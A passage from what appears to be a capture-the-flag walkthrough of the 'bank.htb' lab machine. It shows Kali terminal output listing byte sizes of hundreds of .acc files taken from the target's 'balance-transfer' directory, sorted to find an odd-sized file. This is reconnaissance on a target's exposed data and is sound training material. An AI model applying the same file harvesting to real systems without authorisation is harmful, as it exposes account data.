   582 acb4ccb8eeb778b614a993e7c3199e5b.acc
   585 ad16aa80831b4fba1439ac9e5f0103c2.acc
   585 ad363144b53172d66bd24dfa575d4915.acc
   584 ad4704e9fd044a6961dc222624127732.acc
   584 ad4bd9527fb35490c3c8a2be078c2b3d.acc
   585 ad608d995d60e704cb2f8bb0c9c8e526.acc
   584 ad7cc6e79ce56c437a13246ed6c4d5f8.acc
   584 ae364452981dad5efa2bed11f58b67ec.acc
   584 ae61679e003671db4ef71b3e08e51c6d.acc
   584 ae7f70db2c5682cf9d232915fbe5120c.acc
   583 aeaa050edd55f9acfdebbc6ec4565e06.acc
   584 aed357b751b161f2baa30f1a6ffa94d8.acc
   584 af03037070ba16f49629e8fceae67101.acc
   585 af506ba8430038b4c446610b7afeca02.acc
   584 b086c5383d5ba5f9fe55bcf2879d4494.acc
   584 b0ffc7ada9b79d0b507d99b67a3260f6.acc
   584 b117c5fddba8530b339c9a8da696ff0c.acc
   585 b155ec440c9934e68335882bf9bc87a4.acc
   585 b165bbdb365c838e73b1a2d667b6fccf.acc
   585 b1732eb5066d19f0d4f2e4a2173b51d0.acc
   584 b1a06fa15fea8df052eb0efda06239fc.acc
   584 b1ab8c16c5300a1fc00907310fe6498d.acc
   584 b2007795fd0d31d65ec16d2cc03b62e2.acc
   584 b2379715823c2d101d66b2b750d7729c.acc
   583 b244aedf4f40a73e2ba94ca019c11765.acc
   583 b25d37c6adaa929438e2906e99c9bf10.acc
   584 b25f88734c195eac61678d0c1f9eaa4a.acc
   583 b2b92a76037f5cedcbddb2cf8922b584.acc
   584 b2d9f5c9658426b86efd70046ee8471d.acc
   584 b2ec2c2d39477ab81eb74f185699e945.acc
   585 b2f462e0cef4ceac9341cd6ff3e0ed83.acc
   584 b30aff7167e8f8b78dcb22feca8754ad.acc
   584 b36b55a6b85410da8098d183b46e9814.acc
   584 b3fa7845a431dcab7cac67fcfc6dd728.acc
   584 b4006524aae0d82ce9ad65a8991e81b3.acc
   585 b4549c66b6529d2d366b0065722b4fab.acc
   584 b461cb6730908268d5731c4d30696f23.acc
   583 b4ed8dcdfcbc03a4f383956db555f674.acc
   584 b515f74731640dc9c2bcc5fbb155f0e2.acc
   584 b51b74fb4d0fffb13588c438327eb18f.acc
   584 b54969a641bfeeb6a9daaf76b42bb629.acc
   584 b59e8e4197ddedcafa629a4015a652a5.acc
   585 b5dd07106c1b691c055f717c6267768a.acc
   585 b5fc8035406f2583cea97f92461bbcb0.acc
   585 b65b6105d8c1b7732bc0cbe395e5ff2d.acc
   585 b6991119b60d52b191a97156374ec497.acc
   584 b7640c209018067b376ae0832f66ebed.acc
   584 b7778d5081f949cedbb609c1792d376e.acc
   585 b819d8a2eb68f65c47355b20fa1e3a42.acc
   584 b81a80f9bb4b1a04afa7097e23cbc76a.acc
   585 b85e39b33781a6d660ee25286c3ab5db.acc
   584 b8978edfe1f1e84b9157d147adb4a7b3.acc
   585 b8e7b4cf45d8182f69a43dfea4c15007.acc
   584 b91c776e5fc8ac78ef2b7ac7985c12e7.acc
   585 b987c7121ca99f686fad591cd517c96a.acc
   585 ba0c98a6b1b39df7395fbe53bb3d9416.acc
   585 ba39ecb7f9e7c8ad01242ee2abfec51f.acc
   584 ba3f33ae83f835337fc89c330c8c0b0b.acc
   584 ba4fb7e7c14fba8f12044868d0a2fb58.acc
   584 bb34a1ff313f2f6c04f276bc796972a1.acc
   584 bc1d7f1ae59272da503d8400021f1922.acc
   584 bc77e74af430c6c199676bd28a7239db.acc
   585 bc79ed4105fa30d652540f01aefa1b86.acc
   584 bc86f3b2b74796989a2607e0c0c0d785.acc
   583 bc8f563356a47ba542004438ad25cfe1.acc
   584 bc9767541db7363d22bd389262891376.acc
   584 bd19ed634fca546c3a1ba5839cb38108.acc
   583 bd5a6de2559b3b47989f6ed359df4b31.acc
   585 bd6296924dc801f8c8a4cb8a21cacb6c.acc
   585 bd8201d9d272abc25ea846ba4f9ce151.acc
   584 be68d0020eb8ca72d751561bfd379e0c.acc
   583 bf1db217197a8ca98e78546d06de0a78.acc
   585 bf263d614541baaaa541101f86af47b7.acc
   585 bf97c1b37423d4d65a57dc14979310f3.acc
   584 bfb8e73959a976e5abb32354299d919d.acc
   585 bfcf10c3db55bd6e8ee1fb1d1e1db80c.acc
   584 bff19337b2e4e2a93e29e98bd931dd19.acc
   584 c0449dc4695da9107356b7081eeaf548.acc
   584 c1700a7bfe673062732771b823b0cd7b.acc
   584 c19e88c3bb036819aa5b28cbdf9cfe27.acc
   585 c1e9c51654c980547d41a4e6b89a279e.acc
   585 c27e3b09f45c2e92b2d85f8ba84c2894.acc
   583 c4442fa5d035928e507c1b7a3d58abc3.acc
   584 c5132ddff0d5dcb77af4ec902e3c34a7.acc
   583 c5664a8536412a94d5b109580070bd1c.acc
   585 c58e81ac3538ce7bfdf724829e91cc1b.acc
   584 c59de74625806c5e1c0c76a2c744a57e.acc
   584 c5fbe301fd23271c5587af536c490d4d.acc
   585 c610afd0caaedeab71cac5163f952e5f.acc
   584 c699054ac57388bc81a86e173a40380d.acc
   584 c6f3ea4d0d9050cdd89b3465cde1091c.acc
   584 c79000bbef5faef919233d06186a9460.acc
   585 c7c1aeb5d6174d9971083d5b0cc42d4d.acc
   583 c7e5018a4f1def3f9bb7e5845cef8520.acc
   584 c7eafce7ea1402a837a2876a4df6363c.acc
   584 c809073b951d81730735cbddc4b05b4c.acc
   584 c86c13570b69c871145b9ee78c82cf1c.acc
   585 c88e9ce208f7a014f699c20e897c168d.acc
   584 c9aa1ec05c4655ff245a6cbf91987b9e.acc
   585 ca7050d298b7ed8426eeb5dd8fcfacda.acc
   585 caa00c3f2217fdc59be9764e1167ca39.acc
   585 cb27ba5c7f50f33d3808eeccfe1c7271.acc
   584 cb2da876273338ead9c35ca591d1a74f.acc
   584 cbeed458cd121a5a971a2578ff6a3a95.acc
   584 cc4b31bcc18c5883483f418ace7032cb.acc
   584 cc66fd1344a67960d78071e553f5325a.acc
   583 cccc89d995cb744980230163ff4bc2b7.acc
   584 cd0601603157ea5959e9920ce184a131.acc
   584 cd247bc40733ce4e2acad1fa1d55581c.acc
   584 cd77ee6d8342e1c28b6ca56662319f09.acc
   584 cde3efebc24ac5d927642eb91c120a0a.acc
   584 ce11ae5a941985ee4365cfd8027a505b.acc
   583 ce1c2ba769fbecf151783412d27b8f57.acc
   584 ce761813354f67a658f53c621777bd84.acc
   585 ce7a7abb6f1d6b0fef7e6528840f9215.acc
   584 cf011a47599e848a6be54aa867f37ec8.acc
   584 cf17562e769f00fa2d4c9b06002ff565.acc
   584 cf436be4e3d4d42361e1634e2fe7ffc3.acc
   585 cfd0c07d32c03e6fbe670975fd0f7fdb.acc
   583 cfe327744712bc2caae9328329112b34.acc
   583 d0149e8a6c8fc1b1283bc35287e43c16.acc
   584 d033c9d931824ff9e2c33961f02fd458.acc
   583 d0800a34462bed11d866ab5f06ba675d.acc
   585 d0bdf3f0e1cbd9a34ffe788c2fe58a3b.acc
   585 d0bf290f0f579a5517ee798f2ff342c1.acc
   585 d12bce7535862f5cb291a7ce2c28a3c7.acc
   584 d1a0513c49f6a3e5ac20be49f84d4366.acc
   584 d1a3a981955f9ca90f71169e2ed36f4a.acc
   585 d1ae912f2a39c387da14e93824a8dc55.acc
   583 d1c0337cacd04b40aa41ad9673ab6e18.acc
   584 d1edb87cf8ab7428f6516d4aa6d4f810.acc
   584 d202a0e5d499e5de951e2bd0f89c1561.acc
   584 d202e77cc1f248507e2762f3d94e7700.acc
   584 d3a36914dbbfc27be1850c9ff96782d4.acc
   584 d3b32d2462d7cc342c873eb5e446aecb.acc
   584 d3d8504e9030c7a62c9a753975edee61.acc
   584 d3f31422f7626f223f0566cff6aeb214.acc
   584 d441f15b2a3476a27e293baf3d0ec05a.acc
   584 d47cf16a162cede027eff16290df4b41.acc
   583 d482e381c5eb43f1926cfb3a246e5bb0.acc
   585 d53b97a0d345159716ed03541ba999e8.acc
   584 d54532bd2e68a899fff5dad8bd5db8e8.acc
   584 d5cb9f617e1a85d3b82222655d8b9745.acc
   584 d63d28ffe1c777e4039aaa44f38a9a80.acc
   584 d64498c649d007c2550b893b875491bf.acc
   584 d6e92e084ca622a793ed7dd522d5570e.acc
   584 d6f925ae367e2dbcd8b918ede84fa6ac.acc
   584 d7cd6ee61bf1652ea1cf0a34291edab7.acc
   584 d7da27efabd1420a998985b595a9e3e6.acc
   583 d81ff44224e6f0af034c595cba2b9197.acc
   584 d88b183a0b7a477c5f7f38649aef54e4.acc
   584 d898f1f579e3c074ae703acbf1f7ca64.acc
   584 d92f85304c616afc75cedc569ec95449.acc
   584 d9cfdd2f403feb188165f66e93f1f0ea.acc
   584 da792e19873be561b9410bec2e43cd0d.acc
   585 da91d518d1fecf7334ab95fc97930324.acc
   584 db89b8312d552ed200d5f232e929d226.acc
   584 dbb9aa3c08cf691b8c020742d28a5126.acc
   585 dc38c8982f3e8c33505fd71ebbb83493.acc
   584 dcbcee36c8e9921d457bef60536010fa.acc
   584 dd1ef498f9168afa3a998bf521c86bdf.acc
   585 dd441ff68ffdd5e483c54b22d6b9560c.acc
   584 dd72dfee0e8914682822bc675abc1c1b.acc
   582 dd764f1f57fc65256e254f9c0f34b11b.acc
   583 dd8b35539e6e28b7fca7e16ed30346bc.acc
   584 dd98b8e773842caceb3dfd65807b96a6.acc
   584 dda838ffa97c73f9b23635a3ea2af089.acc
   584 ddba1881bb08a67296da274255327295.acc
   585 de05536aaad7fcd48213d4514d4e86ec.acc
   583 de90b8a1ab02fc3057c6bcae023994dc.acc
   585 debb6ca8f8c2d3111b3075318baf47fc.acc
   584 df1868a53af00d00adcb968329cba2cf.acc
   584 df3bb08355a9cf43ebf38c0b56572f24.acc
   584 df6f4c539f4e65dbab41c8d859d716ef.acc
   585 dfba0fca0f256dced2045954d288dc5a.acc
   584 e00ecd8f4f080b2f004469ab977557a2.acc
   585 e0144aefd0efef77f6e22ccf0184be7a.acc
   585 e0acada8ebe2e71f0f2fb11f46a615ca.acc
   584 e0f6f044cfa36d6e376e2c4d51e19c51.acc
   584 e11afad2d397447c713765da5455284a.acc
   584 e131f1ebe2dd1c2e94bd520c453c6fba.acc
   585 e133d908180589eec9ccfbea70d741d1.acc
   584 e1c22573a63c4b2a458b50fe5952dfbe.acc
   585 e1f3df4623fdd06b5e73b0638e746d8c.acc
   584 e1fc90a1fcaf755f7d87642ee8435aff.acc
   585 e21c913c872e02ae81887b8acc747d42.acc
   585 e2460b444421f0c740771fb06d3f5383.acc
   584 e260b48878509a1e12abb7614b1dae46.acc
   584 e291abebd339260825783fb4c3a308ad.acc
   584 e2dae8ebb3b4324ec60ea862147d86cf.acc
   584 e2e0c84c82bb1ec6e2ed2e47c4b613fa.acc
   584 e2e5811258574d046e14dcd3ac2c85bd.acc
   584 e321164b6a58b2bec20f5779cf81a035.acc
   585 e3c644269174eb2836bc4fa382949bac.acc
   584 e48560adbad98be98b7ea385132daaa1.acc
   584 e4939066a31bb3791e5090eaa126b578.acc
   584 e515f0b553c041958bfefc737a7a9be7.acc
   584 e51cd1e8e3b38e7491b3a2bf1d54cb85.acc
   584 e534ab97fa5fa6f90508261518af6761.acc
   584 e545f6be978e341ad0412d954c6f5181.acc
   583 e5608acb3cdc61bf03e76ba0eec6f144.acc
   585 e5d105066394c76b47ef9b0c13d1e702.acc
   585 e5e37effa0bbb08e71244ea3fdbf135a.acc
   584 e65e4788185b3d1ba4de7cdcd3f3a5e2.acc
   584 e729ba75c2e61d75052983668155a494.acc
   585 e7ceb9e11adb90e143e236cba4699893.acc
   584 e874f65408cc3005163954b8b31ffeb9.acc
   584 e876afc6545d55e0d1297fcd95b0d334.acc
   585 e9006b9e02ca5e2f64b4a6c1b88a6174.acc
   584 e90fc06918e95e2d0f4a32ea178f6f85.acc
   585 e96eb0496f9f3f2187a91d47cc789c5e.acc
   585 e9c21e21078cca67470688fd9750e35b.acc
   585 ea664b6fac225604ad4a76956a84de4b.acc
   584 eb439f0ed2edd4a1ca186ef9c868c547.acc
   584 eb4d3f88032008b4c9e25b0c5410279d.acc
   584 eb6069bbcc072e4748cc76e564634cb3.acc
   585 eb9062859001f9d14e9d2aab827f27f6.acc
   584 ebb023e25c2d0714109c21850d514234.acc
   584 ebdf24181447b673a3bd7b10867cf8d3.acc
   585 ec1499b623c132d074c2d81071fedc51.acc
   584 ec4b903ebc21e5d0174d299a785b23d0.acc
   584 ec57cda985748265567eb5ce65cb6ead.acc
   583 ec60ca862555223fa6d3407485665ae1.acc
   584 ecf30d100c09f82894def7e49bbde2c8.acc
   585 ed64d19c83fa8a673b9613f18d072095.acc
   585 ed78f0a148d4320566e799bc2b9bd6a9.acc
   584 ed7bb2476880c9f74fc6c84e9bae3d12.acc
   584 ed8949614be8827cfcc3641f7cf6d84d.acc
   584 ee0e53c02d3af32a41b0b0db18110a71.acc
   584 ee55be0f23fd34553071bf41289545e7.acc
   585 ee9f97e5d90be90ee1cbdff5587cce31.acc
   585 eeac7e1e3b5c37b8b41210f2f3565b83.acc
   584 eed2a0d81e1c8014dcff0f1e2e4aa549.acc
   585 eee184159db774335325d1a3df5a8bbf.acc
   584 ef7d353ab64ce2f8649a2fe2e044d00a.acc
   584 ef8acec46fe90bacf21119059ee61db0.acc
   583 efada3bec9954bac04fe2778a974c9a0.acc
   585 efeb37c425e65acb60949b18d432327d.acc
   584 f09e4569207c33820d2be5ccb98a1879.acc
   584 f0f1ee68fd1851d3174be51c80598aae.acc
   585 f0f4ce2ed7613415ccf81b274f76ad1e.acc
   583 f0f8ea272f091256230e5cbab19a951f.acc
   585 f125d4527679f54ac91915ace260e1bb.acc
   584 f16338fa71b5d1b2490f38a38496a2a3.acc
   585 f17b615f6ca6e6d0187d580c5d7bba6b.acc
   584 f199c163d1bc548b847a6fe85548035d.acc
   585 f1baba483e8af22c333d241d44b03af7.acc
   585 f1fd45aaa2e9ebef30a2150276fa8c59.acc
   585 f22de8ab72b1fb0fc43eed85368b984b.acc
   584 f283190eb6180e1a5e27983e1ff63289.acc
   584 f2bfb6c3f7cbf65176e39105767b5fb7.acc
   583 f2cd9d9d2d57a8c9e97e427de36ced76.acc
   585 f2d6fc8ebdb1e9bb6874673419e0e870.acc
   584 f2d744aa3a27be76565cb900db0039f0.acc
   584 f393628766266e2325b9d665ff375314.acc
   585 f3a0d4846c351a4c092c5c2d639e26ae.acc
   584 f4475acf00fd37263c0e1d67dfe79393.acc
   584 f456824eeebf1248ab0b21710eb7cd0c.acc
   584 f497a39d8a83ef18916f40e4bd2c0ead.acc
   582 f4af6b16beb3dbb6468ecf0c959bd090.acc
   584 f4d4370f5f710441f928fbbc1493bb84.acc
   585 f507318a91772b5bb04e2c4fcdf4b896.acc
   584 f510f991d80a817405fdea6aeefa0c5a.acc
   585 f533a1c44df699fdbb0835050f71cd1a.acc
   584 f54e2b927d8fa8788744c6009d2a45ef.acc
   584 f5affad2f51f9413416019913e509be2.acc
   584 f5c8f951cc3aa1d66430e3dbf1027039.acc
   583 f6607b35d03c6ee905e831c4a00af2c0.acc
   584 f6748d363aff0cc8c7beaa04f1b2ab7e.acc
   584 f676c085d2f8e218fc4272c348896c08.acc
   583 f77b61daae19f1fdf0331ae62d11b48f.acc
   584 f77b874da650efaa92c5c6a292bbba35.acc
   584 f77e102769baf3c03c855cef0f9f41de.acc
   584 f7d83ce903d4c505552533c269c22778.acc
   585 f8020700b091366a5e1343b5c0020f9d.acc
   584 f81c0e2e2ac1dc3c497421d901b05da3.acc
   584 f85f26eaa265dd6dbdc8c29061323bf9.acc
   584 f8875be5e4ee006df2228b3ff0a7bd68.acc
   585 f8f633fdff1ef33d238851f264bade56.acc
   584 f9270f8014a481617dbac28aa5ec7450.acc
   584 f94b9157b5e291720bb13d62b9a9623f.acc
   585 f94dcf255199d565fc997fc6a91beed8.acc
   584 f9851c2e450f13261e020fcf7f0ed180.acc
   584 f9c2c34471cfeb316881a2d97fa79c52.acc
   584 f9d12910695a055494dc254902131e12.acc
   584 fa06f9a8d4672d4d739a99f310b3add0.acc
   584 fa34e37fb9b5153d44e8422b2ed95338.acc
   585 fa4bf29c22b6e479c6c315ea15557ca2.acc
   583 faba62033042fee10008e7cd3790ba2e.acc
   584 fabfd4cd599ac63c5699f456f2cf448e.acc
   585 fb3cb6734c832b14987f002c2dadae19.acc
   584 fb42d07220a996307df38ec7e6189b4c.acc
   583 fb5a9d6ac0d2c781dffd73c470f23fe0.acc
   584 fb73bed60d6dd4559860ea5f7f2f5a3c.acc
   585 fb891061321669dd0ef9d5114d476f3a.acc
   584 fbcbbd213f0a3e88ee84eea9a9d01b90.acc
   584 fc6cdd24cf81d66d12c97aa97a37fe33.acc
   584 fc73548dc690c238c5aff9cb9e440498.acc
   583 fc87e5f87f8d7a8eedc4ee85b5b1c58e.acc
   584 fcb78e263fc7d6e296494e5be897a394.acc
   585 fdce9437d341e154702af5863bc247a8.acc
   584 fe426e8d4c7453a99ef7cd99cf72ac03.acc
   584 fe85ff58d546f676f0acd7558e19d6ce.acc
   585 fe8a8b0081b6d606d6e85501064f1cc4.acc
   582 fe9ffc658690f0452cd08ab6775e62da.acc
   584 feac7aa0f309d8c6fa2ff2f624d2914b.acc
   584 fed62d2afc2793ac001a36f0092977d7.acc
   585 fedae4fd371fa7d7d4ba5c772e84d726.acc
   584 ff39f4cf429a1daf5958998a7899f3ec.acc
   585 ff8a6012cf9c0b6e5957c2cc32edd0bf.acc
   584 ffc3cab8b54397a12ca83d7322c016d4.acc
   584 ffdfb3dbd8a9947b21f79ad52c6ce455.acc
583262 total
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer#
```

```sh
root@kali:~/bank/balance-transfer/bank.htb/balance-transfer# wc -c *.acc | sort -nr
583262 total
   585 ff8a6012cf9c0b6e5957c2cc32edd0bf.acc
   585 fedae4fd371fa7d7d4ba5c772e84d726.acc
   585 fe8a8b0081b6d606d6e85501064f1cc4.acc
   585 fdce9437d341e154702af5863bc247a8.acc
   585 fb891061321669dd0ef9d5114d476f3a.acc
   585 fb3cb6734c832b14987f002c2dadae19.acc
   585 fa4bf29c22b6e479c6c315ea15557ca2.acc
   585 f94dcf255199d565fc997fc6a91beed8.acc
   585 f8f633fdff1ef33d238851f264bade56.acc
   585 f8020700b091366a5e1343b5c0020f9d.acc
   585 f533a1c44df699fdbb0835050f71cd1a.acc
   585 f507318a91772b5bb04e2c4fcdf4b896.acc
   585 f3a0d4846c351a4c092c5c2d639e26ae.acc
   585 f2d6fc8ebdb1e9bb6874673419e0e870.acc
   585 f22de8ab72b1fb0fc43eed85368b984b.acc
   585 f1fd45aaa2e9ebef30a2150276fa8c59.acc
   585 f1baba483e8af22c333d241d44b03af7.acc
   585 f17b615f6ca6e6d0187d580c5d7bba6b.acc
   585 f125d4527679f54ac91915ace260e1bb.acc
   585 f0f4ce2ed7613415ccf81b274f76ad1e.acc
   585 efeb37c425e65acb60949b18d432327d.acc
   585 eee184159db774335325d1a3df5a8bbf.acc
   585 eeac7e1e3b5c37b8b41210f2f3565b83.acc
   585 ee9f97e5d90be90ee1cbdff5587cce31.acc
   585 ed78f0a148d4320566e799bc2b9bd6a9.acc
   585 ed64d19c83fa8a673b9613f18d072095.acc
   585 ec1499b623c132d074c2d81071fedc51.acc
   585 eb9062859001f9d14e9d2aab827f27f6.acc
   585 ea664b6fac225604ad4a76956a84de4b.acc
   585 e9c21e21078cca67470688fd9750e35b.acc
   585 e96eb0496f9f3f2187a91d47cc789c5e.acc
   585 e9006b9e02ca5e2f64b4a6c1b88a6174.acc
   585 e7ceb9e11adb90e143e236cba4699893.acc
   585 e5e37effa0bbb08e71244ea3fdbf135a.acc
   585 e5d105066394c76b47ef9b0c13d1e702.acc
   585 e3c644269174eb2836bc4fa382949bac.acc
   585 e2460b444421f0c740771fb06d3f5383.acc
   585 e21c913c872e02ae81887b8acc747d42.acc
   585 e1f3df4623fdd06b5e73b0638e746d8c.acc
   585 e133d908180589eec9ccfbea70d741d1.acc
   585 e0acada8ebe2e71f0f2fb11f46a615ca.acc
   585 e0144aefd0efef77f6e22ccf0184be7a.acc
   585 dfba0fca0f256dced2045954d288dc5a.acc
   585 debb6ca8f8c2d3111b3075318baf47fc.acc
   585 de05536aaad7fcd48213d4514d4e86ec.acc
   585 dd441ff68ffdd5e483c54b22d6b9560c.acc
   585 dc38c8982f3e8c33505fd71ebbb83493.acc
   585 da91d518d1fecf7334ab95fc97930324.acc
   585 d53b97a0d345159716ed03541ba999e8.acc
   585 d1ae912f2a39c387da14e93824a8dc55.acc
   585 d12bce7535862f5cb291a7ce2c28a3c7.acc
   585 d0bf290f0f579a5517ee798f2ff342c1.acc
   585 d0bdf3f0e1cbd9a34ffe788c2fe58a3b.acc
   585 cfd0c07d32c03e6fbe670975fd0f7fdb.acc
   585 ce7a7abb6f1d6b0fef7e6528840f9215.acc
   585 cb27ba5c7f50f33d3808eeccfe1c7271.acc
   585 caa00c3f2217fdc59be9764e1167ca39.acc
   585 ca7050d298b7ed8426eeb5dd8fcfacda.acc
   585 c88e9ce208f7a014f699c20e897c168d.acc
   585 c7c1aeb5d6174d9971083d5b0cc42d4d.acc
   585 c610afd0caaedeab71cac5163f952e5f.acc
   585 c58e81ac3538ce7bfdf724829e91cc1b.acc
   585 c27e3b09f45c2e92b2d85f8ba84c2894.acc
   585 c1e9c51654c980547d41a4e6b89a279e.acc
   585 bfcf10c3db55bd6e8ee1fb1d1e1db80c.acc
   585 bf97c1b37423d4d65a57dc14979310f3.acc
   585 bf263d614541baaaa541101f86af47b7.acc
   585 bd8201d9d272abc25ea846ba4f9ce151.acc
   585 bd6296924dc801f8c8a4cb8a21cacb6c.acc
   585 bc79ed4105fa30d652540f01aefa1b86.acc
   585 ba39ecb7f9e7c8ad01242ee2abfec51f.acc
   585 ba0c98a6b1b39df7395fbe53bb3d9416.acc
   585 b987c7121ca99f686fad591cd517c96a.acc
   585 b8e7b4cf45d8182f69a43dfea4c15007.acc
   585 b85e39b33781a6d660ee25286c3ab5db.acc
   585 b819d8a2eb68f65c47355b20fa1e3a42.acc
   585 b6991119b60d52b191a97156374ec497.acc
   585 b65b6105d8c1b7732bc0cbe395e5ff2d.acc
   585 b5fc8035406f2583cea97f92461bbcb0.acc
   585 b5dd07106c1b691c055f717c6267768a.acc
   585 b4549c66b6529d2d366b0065722b4fab.acc
   585 b2f462e0cef4ceac9341cd6ff3e0ed83.acc
   585 b1732eb5066d19f0d4f2e4a2173b51d0.acc
   585 b165bbdb365c838e73b1a2d667b6fccf.acc
   585 b155ec440c9934e68335882bf9bc87a4.acc
   585 af506ba8430038b4c446610b7afeca02.acc
   585 ad608d995d60e704cb2f8bb0c9c8e526.acc
   585 ad363144b53172d66bd24dfa575d4915.acc
   585 ad16aa80831b4fba1439ac9e5f0103c2.acc
   585 ac6d61e69c240fe11d6ca4b6acc35aff.acc
   585 ac4fd9384634602b2d74305a18648577.acc
   585 ac2916a043bcbeb801691afed44274d8.acc
   585 abedece2083ec0ce5bfd9b8287073e1f.acc
   585 aa1460476704c4ab045ba3583b34a319.acc
   585 a9bf73c62737a6c16b95651c046fe3f1.acc
   585 a909fd3d565cdc5e67c7b25563733b3a.acc
   585 a80f454ea328eeb74bc50e0c2af5c33a.acc
   585 a75e327f24e14d77509c39cf53c2eb9d.acc
   585 a6566c5ba56c080595346fb4f75175f5.acc
   585 a5d269a562c49d467a5102643bd35a8c.acc
   585 a5beea9b526e1fa0916a2a1c2297ad14.acc
   585 a53a4eaab8be6c4b8569fd407be54287.acc
   585 a465e6dcb80571d0c1a4c50656db1e3f.acc
   585 a2f5e3d1b3733a1a40ac6ac4bd7c2182.acc
   585 a2881d3dd5ee59e95e3ba1265b2a68a2.acc
   585 a1a96ff9ea385289c05d16230b509aeb.acc
   585 a19983a3444c9f01bb4afb8f985c92bc.acc
   585 9fb8117ab5d757240cd6ef209f85471a.acc
   585 9eb94f160af437fe9df9da2416072508.acc
   585 9e46683ea1755a3751709b04e37571e4.acc
   585 9d7bfd31b36dfb3819bfcd38d2a2a6da.acc
   585 99d49fb7fc00f549eb036dd473964ca5.acc
   585 98fdde8e57f46c48d6f8eff627c7bd6d.acc
   585 962607e2656d81d6dbf9d1a85142b144.acc
   585 95a9ed9af4c22584f165f5b43520b377.acc
   585 958753e5d8c5896a5570dd1fba2c2f11.acc
   585 94290d34dec7593ce7c5632150a063d2.acc
   585 91f56bdaaf319e141d7784413028d0fd.acc
   585 916da122c11e2e240be7647d3943ac6b.acc
   585 916462152b12cacd3b7a982c8fd1206b.acc
   585 8f00e7f326d98a8f40b0db62a55c01d5.acc
   585 8e6493afb68626079c3a153ecc2bc532.acc
   585 8cfb0967df2394db4375ccc542fe2618.acc
   585 8cedbedfff70a3528fbebfee0fe0c4a3.acc
   585 8915138a77e6474ae29f6b06e109b7ff.acc
   585 87f2fd14ae5dd0b04fbf96d8e6768283.acc
   585 87b0476d46f9b5bf71be14e4447e0ec1.acc
   585 87a3209fc8d2d8ebe98e40bac4ce78f0.acc
   585 879f0957ad3ed3f46f2bef382fcde256.acc
   585 87831b753b8530fddc74e73ca8515a50.acc
   585 86afd07fd9b3e161d4110a05efbc4567.acc
   585 858a0d9ead484a5452940683dfe75356.acc
   585 84f8b63a767058af39d96477fa557487.acc
   585 84f283b21104e9172dbf083a86cb1da9.acc
   585 848e888aa97a6370a04b077d7de5a565.acc
   585 8417fa43902ff7f26fb4cf87f0d428a1.acc
   585 82c3d67857c36d3f97535a6d211272e3.acc
   585 8116eebed5657173e44eac5f834c6dd7.acc
   585 805c369e5114713021dbb49b374845c1.acc
   585 80416d8aaea6d6cf3dcec95780fda17d.acc
   585 7f4d9c6e8a185bd54a2bb3266b239f35.acc
   585 7e4cf8e1c1950a8e1da8e937901ff657.acc
   585 7d7dff306be634f864e92a6b038dea8b.acc
   585 7bee4f51ff23066e9e909ac84873e9c6.acc
   585 7bd2b3a05795e2d216cac59bb405f079.acc
   585 7aaeca9d4bb6725b0616597a393a3d7d.acc
   585 79b96225cc4705c9d7f4630f1482b6da.acc
   585 797e1abe1c99424aa7856f6c9f136cfc.acc
   585 78e242e6d759c6e35520071b33f00e97.acc
   585 784e81b0f924ffc73318724185f5ba0c.acc
   585 7804840b63cad3132d2a222818e34766.acc
   585 74fe6e35b2588a89adfd936a8b458a53.acc
   585 72f6e953d2eb1efacaef199dc21aacc1.acc
   585 726a000b87b8e3ae49e2d0039a216fc0.acc
   585 71c6d088ffa6532bd971a94224142780.acc
   585 718772467ce8bd9c269aebb2e25ebd2f.acc
   585 70fb7ee7eb269c313db283def6ab7d09.acc
   585 7053af4bcb72fce3b093fd4847070f29.acc
   585 6eecbc937801fa028da31d0323077a86.acc
   585 6e6c81b5d36cda27b14bf5bb52888625.acc
   585 6d9666eac9b05c37d68cbcbcb24c7609.acc
   585 6c4fec2702b25900b66379a02b54ae24.acc
   585 65f00eed6eb9cc15e2bb8fdce2fb12cd.acc
   585 65c2e22dfd5c3cd4ec160c641925aabd.acc
   585 6575141b4812a7fef638ace04b19d0c7.acc
   585 65733941cafa352d30dfbdc7580d023a.acc
   585 640087eae263bd45eb444767ead7dd65.acc
   585 624ab87c34e95964f842598d2a5af800.acc
   585 5fbbd0af8aff8f966d119a7de8e123ac.acc
   585 5f9de9bd6cee286315cbe49e5d31c2d0.acc
   585 5e80dca0989d5f4a076146f7aa859c20.acc
   585 5dde5175da535b073504fa6222da07af.acc
   585 5cf5a255a6ac6c51fce18b20de1fc6c3.acc
   585 5ccfc5c5060c6f7eaebc7b360bf1fb5c.acc
   585 5a06163947bacb35937b94976524b9e9.acc
   585 58a69d5d011af16b12f0a81107be3d24.acc
   585 581e4dfc04729f53cb5b461a26b43175.acc
   585 57aba757c2e288d93ebedeb80b7c0319.acc
   585 56cf080080911de15d63db43a7c3c659.acc
   585 56bca21e1e398d9e4ed8d35fcdd21312.acc
   585 563738597d410751acc3378aec0e860d.acc
   585 55fef9f64a6faf3ada69a9ae9d098017.acc
   585 5313f2c7094ceabfc44a02f61643be18.acc
   585 5247cc2759787a72747c4376a88356e8.acc
   585 500f59a56cf27362df6df66852574348.acc
   585 4f413171a5b4e0b82fd0a14edefcb175.acc
   585 4cad3a11b7963ebfc70f703dd4811b96.acc
   585 4bf0266486768e0fdcd383973f08227e.acc
   585 4b00b1be8ef8c5f73901e50d4d09470f.acc
   585 4ae6ee6e14e6de520567c8c82b6beded.acc
   585 4abf8c9aa0f414abd9bfe187b72461e3.acc
   585 4a41cda86cb132771f2e51e480364173.acc
   585 498f1ae1b09e6efbbd19097cdef6cc86.acc
   585 49206d1e18aa8eb1c64dae4741639b2f.acc
   585 476e02d55e6e34295af15309d47acc49.acc
   585 45fad7b2ebd71ee55663f9d4c25d1cb6.acc
   585 4586e7414d7567f91f965d8eb2647a6e.acc
   585 45028a24c0a30864f94db632bca0a351.acc
   585 43cb4089654f49c1894024af1d79239c.acc
   585 43c8b7a50ddfde5aa5fc736406c72423.acc
   585 4273dec45222434c96a4ebae56a3c840.acc
   585 41bc81ccd65b5ae21f181bcdc60a6c62.acc
   585 415e625085a1dcba383d97d16e9b2447.acc
   585 3ff2509d974c2f4e36d87dcc7048b4d8.acc
   585 3fc4b2d139b8ecbb0bec75345aeac132.acc
   585 3f922da04764d314d9ad4ec29bd24ab7.acc
   585 3f7dcbfa9956edfc1c680db5f56258ca.acc
   585 3f5377ebb31e50606f0d2cef73f49130.acc
   585 3ebc66c0b6e64c060e86daf2ce4c9a31.acc
   585 3e4c7ee45bec4977653fa1ff687703a4.acc
   585 3e15fba8222b4257f517f73ffa6e8dbf.acc
   585 3cfe8573c12153ad69e3ebe9f2451783.acc
   585 3cc285ba7c9ab83973717b64f690d3e0.acc
